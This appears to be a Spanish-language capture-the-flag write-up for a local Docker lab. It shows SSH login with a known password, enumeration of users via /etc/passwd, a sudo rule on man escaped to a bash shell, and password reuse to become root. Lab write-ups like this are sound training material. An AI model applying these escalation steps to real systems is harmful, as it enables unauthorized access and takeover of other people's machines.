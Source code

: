 Logramos ganar acceso:
```bash
# Reverse shell o acceso inicial
ssh admin@172.17.0.2 # ( chocolate123 )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
admin:x:1000:1000:chocolate,,,:/home/admin:/bin/bash
balulito:x:1001:1001:balulito,,,:/home/balulito:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ Admin ]`:
LIstando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User admin may run the following commands on 8d2813915318:
    (balulito) NOPASSWD: /usr/bin/man
```

Nos aprovechamos de este privilegio para ganar acceso como este usuario:
```bash
sudo -u balulito /usr/bin/man man
!/bin/bash
```

###### Usuario `[ Balulito ]`:
Detectamos que existen reutilizacion de credenciales
```bash
# Comando para escalar al usuario: ( root )
balulito@8d2813915318:/var/www/html$ su root
Password: chocolate123
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@8d2813915318:/var/www/html# whoami
root
```